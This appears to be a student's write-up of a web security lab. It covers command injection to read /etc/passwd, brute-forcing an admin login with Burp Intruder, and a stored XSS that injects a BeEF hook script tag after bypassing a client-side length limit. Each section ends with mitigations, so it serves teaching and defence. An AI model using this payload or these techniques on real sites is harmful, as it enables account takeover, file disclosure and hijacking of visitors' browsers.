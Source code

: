 Unit 15 Homework: Web Vulnerabilities and Hardening

Web Application 1: Your Wish is My Command Injection

This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
This type of injection attack is called Command Injection, and it is dependent on the web application taking user input to run a command against an operating system.
Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

/etc/passwd

![](Images/

/etc/hosts

![](Images/

Mitigation Strategies:

    Limit input from user and input validation.  In this case the web application is calling for IP address/es, input should be limited to IP address/es strings and should return an error for anything that is otherwise specified.  Restrict web server accessibility following the principle of least privilege to prevent confidential information access.


Web Application 2: A Brute Force to Be Reckoned With
Complete the following steps to set up the activity.


Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.


If the user/password combination is correct, it will return a successful message.


If the user/password combination is incorrect, it will return the message, "Invalid credentials."


Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.


You've been provided with a list of administrators and the breached passwords:


List of Administrators


Breached list of Passwords






Generate a login request and capture the traffic using Burp Suite.  Send the HTTP request to Burp Intruder.

Identify the payload positions which is the username and password 






Update the Burp Intruder username payload for payload set 1









Updated the Burp Intruder password payload for payload set 2









Successful brute force attack. Image showing the successful payload combination.

Mitigation Strategies:
Complex username and password,  Multi-Factor authentication, CAPTCHA to slow down credential stuffing, prevent automated login and lock accounts after several failed attempts.

Web Application 3: Where's the BeEF?
Complete the following to set up the activity.
On Vagrant, open a command line and run the following command: sudo beef


When prompted for a password, enter cybersecurity.


This will kick off the BeEF application and return many details about the application to your terminal.


Along with these details are several URLs that can be used to access to BeEF's User Interface (UI). For example: UI_URL: http://127.0.0.1:3000/ui/panel


When the BeEF webpage opens, login with the following credentials:
Username: beef


Password: feeb
Task details:


The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.








Max Character set limit is 50.



Increase max character limit to 75 to successfully inject script.



Verify that the script is successfully embedded.



Social Engineering >> Pretty Theft










Social Engineering >> Fake Notification Bar








Host >> Get Geolocation (Third Party)

Mitigation Strategy:
Service-side input validation to prevent scripts from being stored on web applications.
